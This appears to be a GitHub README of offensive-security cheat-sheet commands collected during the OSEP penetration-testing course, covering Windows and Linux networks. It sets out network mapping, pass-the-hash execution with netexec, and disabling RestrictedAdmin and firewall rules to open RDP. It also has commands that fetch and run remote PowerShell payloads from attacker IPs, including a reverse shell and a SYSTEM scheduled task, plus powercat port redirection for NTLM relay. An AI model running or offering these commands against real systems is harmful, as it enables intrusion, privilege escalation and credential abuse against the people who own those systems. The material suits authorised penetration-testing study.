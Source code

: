 Just a bunch of tools built/gathered along the OSEP course.

# Map the network (using netexec)
- `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)

- `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)

- `netexec smb 172.16.149.0/24 --log hosts.txt && sed -i 's/x64//g' hosts.txt && cat hosts.txt | awk '{print $9,$11,$11"."$21}' | sed 's/(domain://g' | sed 's/)//g' | uniq | sort -u | tr '[:upper:]' '[:lower:]' | sudo tee -a /etc/hosts` - Automation for `/etc/hosts` file

# Useful Basic Commands:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

- `runas.exe /netonly /user:final.com\nina cmd.exe`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password` 

- On Victim: `net use \\192.168.45.223\share /U:amit password` 

- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# Escalate to SYSTEM via Schduele Task
- `schtasks /create /tn "SystemTask" /tr "powershell iex(iwr http://192.168.45.223/hollow.ps1 -useb)" /sc once /st 00:00 /ru SYSTEM`

- `schtasks /run /tn "SystemTask"`

# TCP Port Redirection via powercat.ps1
Mostly be used for NTLM Relay attacks, first step is to allow inbound and outbound connections to our victim machine:

### Using CMD:
- `netsh advfirewall firewall add rule name="Allow Port 445 Inbound" dir=in action=allow protocol=TCP localport=445`
- `netsh advfirewall firewall add rule name="Allow Port 445 Outbound" dir=out action=allow protocol=TCP remoteport=445`

### Using Powershell:
- `New-NetFirewallRule -DisplayName "Allow Port 445 Inbound" -Direction Inbound -Protocol TCP -LocalPort 445 -Action Allow`
- `New-NetFirewallRule -DisplayName "Allow Port 445 Outbound" -Direction Outbound -Protocol TCP -RemotePort 445 -Action Allow`

Now, we will need to disable the SMB port on the victim: 

*Note: Run one by one in CMD, no powershell!)*

    1. `sc config LanmanServer start= disabled`
    2. `sc stop LanmanServer`
    3. `sc stop srv2`
    4. `sc stop srvnet`

Next, we will invoke powercat.ps1: `iex(iwr http://192.168.45.223/powercat.ps1 -useb)` and run:
- `powercat -l -p 445 -r tcp:<PARROT IP>:445 -rep`

Once it's running we can check if the victim are listening on port 445: `netstat -anto | findstr 445`

Last step is to perform the Relay and see the callback to our machine on port 445 tunneled from the victim!
